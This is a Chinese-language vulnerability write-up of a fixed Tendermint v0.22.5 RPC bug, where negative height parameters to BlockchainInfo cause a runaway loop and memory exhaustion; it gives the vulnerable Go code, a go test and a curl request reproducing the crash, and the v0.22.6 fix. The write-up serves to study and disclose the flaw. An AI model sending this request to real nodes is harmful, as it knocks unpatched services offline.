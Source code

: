 # [DC-01] RPC请求因For-loop导致OOM

## 漏洞标签

`RPC` `For-loop` `OOM`

## 漏洞描述

这是一个来自 hackerone 提交的关于 RPC 的漏洞。恶意的 `BlockchainInfo` 请求可能会导致无限循环，最终导致内存耗尽导致崩溃。

## 漏洞分析

文件：`rpc/core/blocks.go`

漏洞代码: [链接](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

```go
func BlockchainInfo(ctx *rpctypes.Context, minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
	if minHeight == 0 {
		minHeight = 1
	}

	if maxHeight == 0 {
		maxHeight = blockStore.Height()
	} else {
		maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
	}

	// maximum 20 block metas
	const limit int64 = 20
	minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

	logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

	if minHeight > maxHeight {
		return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
	}

	blockMetas := []*types.BlockMeta{}
	for height := maxHeight; height >= minHeight; height-- { // for-loop
		blockMeta := blockStore.LoadBlockMeta(height)
		blockMetas = append(blockMetas, blockMeta)
	}

	return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

攻击者可以发送如下参数值：

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

注意到`maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`，其中 `MinInt64` 为从两个参数选择较小的，所以我们使用负值的 `maxHeight`。

注意循环语句 `for height := maxHeight; height >= minHeight; height-- {}`，代码中的 for-loop 会可以无限次循环执行。当达到循环次数 9223372036854775807 (max int64) ，还能继续进行。每次无法查找块时，它会向 `blockMetas` 向量追加一个nil。 最终，这将增长到足以耗尽服务器上的内存。

## 复现或测试步骤

此处可以有两种复现方式。

### 使用 go test 脚本测试

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
	config := cfg.ResetTestRoot("node_node_test")
	defer os.RemoveAll(config.RootDir)

	// create & start node
	n, err := DefaultNewNode(config, log.TestingLogger())
	require.NoError(t, err)
	err = n.Start()
    require.NoError(t, err)
    
	c := struct {
		min, max     int64
	}{
	-9223372036854775808, -9223372036854775788,
	}
	BlockchainInfo(c.min,c.max)
}
```

![1](./pic/1.png)

可以看到CPU和内存飙升，几分钟后程序 crash.

### 启动节点复现

开启一个节点，并向节点接口(`e.g. 127.0.0.1:26657`)，发送以下请求：

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

可以看到CPU和内存飙升，几分钟后程序 crash.

## 修复

本漏洞相关修复见 : [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

本漏洞在版本 v0.22.6 中修复。

修复方法：

增加 `filterMinMax` 对输入的参数值进行检查处理。

1. 检查参数值不小于0；
2. `min` 小于 `max`；
3. 当 `min` 为 0 时，设置为 1 ，当 `max` 为 0 ，设置为最后区块高度。

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
	// filter negatives
	if min < 0 || max < 0 {
		return min, max, fmt.Errorf("heights must be non-negative")
	}

	// adjust for default values
	if min == 0 {
		min = 1
	}
	if max == 0 {
		max = height
	}

	// limit max to the height
	max = cmn.MinInt64(height, max)

	// limit min to within `limit` of max
	// so the total number of blocks returned will be `limit`
	min = cmn.MaxInt64(min, max-limit+1)

	if min > max {
		return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
	}
	return min, max, nil
}
```

## 相关资料

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/2049)


